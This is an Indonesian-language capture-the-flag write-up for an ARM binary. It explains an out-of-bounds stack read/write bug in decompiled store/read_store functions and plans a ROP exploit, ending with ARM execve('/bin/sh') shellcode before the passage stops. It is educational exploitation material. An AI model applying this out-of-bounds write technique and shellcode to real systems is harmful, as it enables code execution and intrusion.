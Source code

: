 Fungsi `read data`, ga ada yang unik dari fungsi ini selain membaca data pada `v1` (stack).

```c
void read_store()
{
  char v0[4]; // [sp+30h] [bp-4h]

  write_str("Select slot to read from: ");
  storage_index_5968 = select_slot();
  printf("[\x1b[32m+\x1b[0m] Read %x from slot %d\n", *(_DWORD *)&v0[4 * storage_index_5968 - 44], storage_index_5968);
}
```

---

## Bug

Bug program ini ada pada fungsi `store` dan `read_store`, yakni array out-of-bound karena tidak ada pengecekan pada batasan pada `v0`. Sebagai ilustrasi, mis. `v0 = 14` => `v1[4 * v0 - 44]` => __`v1[20]`__. `v[16] => bp` (mirip ebp kalau di x86), `v[20] => pc` (mirip saved eip kalau di x86)

```c
  char v1[12]; // [sp+30h] [bp-Ch]
...
  storage_index_5959 = select_slot();
...
  v0 = storage_index_5959;
  *(_DWORD_ *)&v1[4 * v0 - 44] = do_store(); // out-of-bound
...
```

```c
...
  char v0[4]; // [sp+30h] [bp-4h]
...
  storage_index_5968 = select_slot();
  printf("[\x1b[32m+\x1b[0m] Read %x from slot %d\n", *(_DWORD *)&v0[4 * storage_index_5968 - 44], storage_index_5968);
...
```

---

## Attacc
<center><b>He protecc, He attacc, but most importantly he got da flacc.</b></center>

Ok, udah tahu bugnya, gimana cara exploit-nya? bisa `write_to_stack` dimana aja relatif terhadap `v0`/`v1`. Nah, karena binary ini `NX` enabled jadi yang bisa dilakukan itu ROP. Sebagai gambaran, ROP yang mau dicapai itu execve, (shellcode diambil dari azeria-labs)

```asm
.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```
